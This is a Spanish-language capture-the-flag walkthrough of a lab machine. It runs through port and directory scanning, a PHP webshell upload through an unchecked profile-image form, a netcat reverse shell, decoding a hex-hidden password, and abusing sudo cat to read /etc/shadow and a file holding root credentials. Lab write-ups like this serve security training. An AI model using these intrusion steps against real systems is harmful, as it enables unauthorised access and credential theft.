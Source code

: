 # Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-17 11:35 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8e:a2:56:38:e1:85:2f:21:2b:55:ec:29:5b:f8:63:d9 (ECDSA)
|_  256 0f:4b:38:fa:04:33:c7:01:5a:98:12:05:2d:42:cf:1a (ED25519)
53/tcp open  domain  ISC BIND 9.18.28-0ubuntu0.24.04.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.18.28-0ubuntu0.24.04.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: HackZones.hl - Seguridad para tu Empresa
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.84 seconds
```

como observo el dominio `HackZones.hl` en el reporte de `nmap`, lo agrego al archivo `/etc/hosts`

```ruby
echo '172.17.0.2 HackZones.hl' >> /etc/hosts
```

y accedo al servicio web

![image](https://github.com/user-attachments/assets/cc1a8799-d1d1-49bd-87cf-db8bc18ba8a9)

tras intentar ver si era vulnerable a inyecciones slq, parece ser que no, por lo que le hago fuzzing a la web

# Fuzzing Web

```ruby
feroxbuster -u 'http://hackzones.hl/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -s 200,301,302 -x txt,php,bak,db,py,html,js,jpg,png,git -t 200 --random-agent --no-state -d 5
```
```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://hackzones.hl/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ [200, 301, 302]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 5
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      181l      450w     5671c http://hackzones.hl/dashboard.html
200      GET       23l      163w     1377c http://hackzones.hl/upload.php
301      GET        9l       28w      314c http://hackzones.hl/uploads => http://hackzones.hl/uploads/
200      GET       77l      135w     1246c http://hackzones.hl/styles.css
302      GET        0l        0w        0c http://hackzones.hl/authenticate.php => index.html?error=1
200      GET       23l       62w      860c http://hackzones.hl/
200      GET       23l       62w      860c http://hackzones.hl/index.html
```


si me voy a `http://hackzones.hl/dashboard.html` observo lo siguiente:

![image](https://github.com/user-attachments/assets/58b33f7e-1ff8-4e8f-b4d5-4cd493a1067d)

y observo que puedo cargar una imagen como foto de perfil

![image](https://github.com/user-attachments/assets/caa569e0-f26a-4253-bbb3-8d7b04e0829c)

pero pruebo si es posible cargar un archivo php malicioso y en efecto lo puedo cargar, la web no verifica el tipo de archivos que se cargar por esta via

![image](https://github.com/user-attachments/assets/f84c8f33-e9c9-4981-a2e9-006377728f81)

ya cargado el archivo, puedo ir a `http://hackzones.hl/uploads` y observo que alli se encuentra mi archivo php malicioso 

![image](https://github.com/user-attachments/assets/52b7f9d1-02c1-4e6c-bc25-985517e8385b)

asi que con esto logro la ejecucion de comandos

![image](https://github.com/user-attachments/assets/5a0dcd78-0596-4d20-a82e-4d2d4a36f15b)

ahora me coloco en escucha por netcat y envio una revershell para acceder al servidor

# Escalada de privilegios

### www-data

tratamiento de la bash

```bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```
reviso los usuarios del sistema y solo existe uno

```ruby
cat /etc/passwd |grep bash
```
```bash
root:x:0:0:root:/root:/bin/bash
mrrobot:x:1000:1000::/home/mrRobot:/bin/bash
```
no tengo acceso al directorio del usuario `mrrobot`, revisando el sistema, me encuentro con un archivo en `/tmp` y tras chequearlo me consigo con subdominios que 
despues de agregar al archivo `/etc/hosts` y revisarlos no me aportan mucho para escalar, asi que despues de revisar un poco mas me consigo un script en `/var/www/html/supermegaultrasecretfolder`

secret.sh
```bash
#!/bin/bash

if [ "$(id -u)" -ne 0 ]; then
  echo "Este script debe ser ejecutado como root."
  exit 1
fi

p1=$(echo -e "\x50\x61\x73\x73\x77\x6f\x72\x64") 
p2="\x40"                                       
p3="\x24\x24"                                   
p4="\x21\x31\x32\x33"                           

echo -e "${p1}${p2}${p3}${p4}"
```

por lo que pinta esta codificado en hexadecial y tras decodificar obtengo una password `Password@$$!123` que resulta ser del usuario `mrrobot`

### mrrobot

```ruby
sudo -l
```
```bash
Matching Defaults entries for mrrobot on 25b45ecaf65f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mrrobot may run the following commands on 25b45ecaf65f:
    (ALL : ALL) NOPASSWD: /usr/bin/cat
```
puedo ejecutar el binario `/usr/bin/cat` como root por lo que podria leer archivos sencibles del sistema, intente crackear la password leyendo el archivo `/etc/shadow`
pero no consegui resultados por alli por lo que revisando en el sistema me consigo con un archivo en `/opt/SistemUpdate` el cual no puedo leer pero como puedo usar
el binario `/usr/bin/cat` como root, procedo a leerlo

```ruby
sudo /usr/bin/cat /opt/SistemUpdate
```
```bash
Reading package lists... Done
Building dependency tree       
Reading state information... Done
Calculating upgrade... Done
The following packages will be upgraded:
  libc-bin libc-dev-bin libc6 libc6-dev libc6-i386
5 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Need to get 8,238 kB of archives.
After this operation, 1,024 B of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://archive.ubuntu.com/ubuntu focal-updates/main amd64 libc6 amd64 2.31-0ubuntu9.9 [2,737 kB]
Get:2 http://archive.ubuntu.com/ubuntu focal-updates/main amd64 libc-bin amd64 2.31-0ubuntu9.9 [635 kB]
Get:3 http://archive.ubuntu.com/ubuntu focal-updates/main amd64 libc6-dev amd64 2.31-0ubuntu9.9 [2,622 kB]
Get:4 http://archive.ubuntu.com/ubuntu focal-updates/main amd64 libc-dev-bin amd64 2.31-0ubuntu9.9 [189 kB]
Fetched 8,238 kB in 2s (4,119 kB/s)
Extracting user root:rooteable from packages: 50% 
Extracting templates from packages: 100%
Preconfiguring packages ...
(Reading database ... 275198 files and directories currently installed.)
Preparing to unpack .../libc6_2.31-0ubuntu9.9_amd64.deb ...
Unpacking libc6:amd64 (2.31-0ubuntu9.9) over (2.31-0ubuntu9.8) ...
Preparing to unpack .../libc-bin_2.31-0ubuntu9.9_amd64.deb ...
Unpacking libc-bin (2.31-0ubuntu9.9) over (2.31-0ubuntu9.8) ...
Preparing to unpack .../libc6-dev_2.31-0ubuntu9.9_amd64.deb ...
Unpacking libc6-dev:amd64 (2.31-0ubuntu9.9) over (2.31-0ubuntu9.8) ...
Preparing to unpack .../libc-dev-bin_2.31-0ubuntu9.9_amd64.deb ...
Unpacking libc-dev-bin (2.31-0ubuntu9.9) over (2.31-0ubuntu9.8) ...
Setting up libc6:amd64 (2.31-0ubuntu9.9) ...
Setting up libc-bin (2.31-0ubuntu9.9) ...
Setting up libc-dev-bin (2.31-0ubuntu9.9) ...
Setting up libc6-dev:amd64 (2.31-0ubuntu9.9) ...
Processing triggers for libc-bin (2.31-0ubuntu9.9) ...
```
y obtengo las credenciales de `root` = `Extracting user root:rooteable from packages: 50% `

![image](https://github.com/user-attachments/assets/2c6632b4-cf25-40c1-af5d-751f70333de3)























